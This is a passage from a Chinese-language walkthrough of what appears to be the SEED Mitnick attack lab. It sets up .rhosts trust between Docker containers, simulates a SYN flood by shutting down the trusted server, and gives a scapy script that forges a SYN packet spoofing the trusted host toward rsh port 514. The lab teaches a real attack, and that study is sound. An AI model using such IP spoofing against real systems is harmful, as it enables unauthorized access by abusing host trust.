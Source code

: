 ![environment](https://s3.bmp.ovh/imgs/2023/10/09/c99ce409459e781a.png)

#### 2. 配置X-Terminal

使用`docker exec -it [container-ID] /bin/bash`命令进入`x-terminal`主机，创建.rhost文件，添加`trust_server`主机IP地址

```shell
su seed
cd ~
touch .rhosts
echo 10.9.0.6 > .rhosts
chmod 644 .rhosts
```

![x_terminal_rsh_config](https://s3.bmp.ovh/imgs/2023/10/09/b785ecf9fcdc806f.png)

配置完成后，使用`Trust Server`主机进行`rsh`登录

```shell
su seed
rsh 10.9.0.5 date
```

 ![x_terminal_rsh_config_verify](https://s3.bmp.ovh/imgs/2023/10/09/1fc83dee8307be4d.png)

另外还需要设置`arp`长期缓存，因为如果在进行`mitnick`攻击时，如果`X-Terminal`主机中没有`Trust Server`主机的`arp`缓存，`X-Terminal`会发出`arp`报文请求`Trust Server`MAC地址，然而`Trust Server`由于收到`SYN FLOODING`攻击无法给予回复，导致攻击无法继续向下进行。

#### 3. 模拟SYN FLOODING攻击

由于当前主机都可以很好的防护SYN FLOODING攻击，可以直接关闭`Trust Server`主机来模拟SYN FLOODING攻击成功。

#### 4. 建立第一个TCP连接——伪造SYN包

令`Trust Server`主机rsh远程登录`X-Terminal`主机，tcpdump查看包交互过程，如下图，可见`10.9.0.5`与`10.9.0.6`之间建立了两次TCP连接（`10.9.0.5:514 <-> 10.9.0.6:1023`, `10.9.0.5:1023 <-> 10.9.0.6:1022`）

![tcp_dump](https://s3.bmp.ovh/imgs/2023/10/09/4479420550dcea96.png)

`mitnick`攻击实验进行TCP连接过程如下图：

![TCP](https://s3.bmp.ovh/imgs/2023/10/09/a2bb3edcf9bb11cf.png)



使用`python scapy`库构造脚本，伪造SYN包，向`X-Terminal`伪造`Trust Server`发送SYN包，尝试建立连接。

`python`：

```python
from scapy.all import *

# 1.发送第一个SYN包
ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=1023, dport=514)
tcp.flags = "S"
p = ip / tcp
send(p, verbose=0)
```
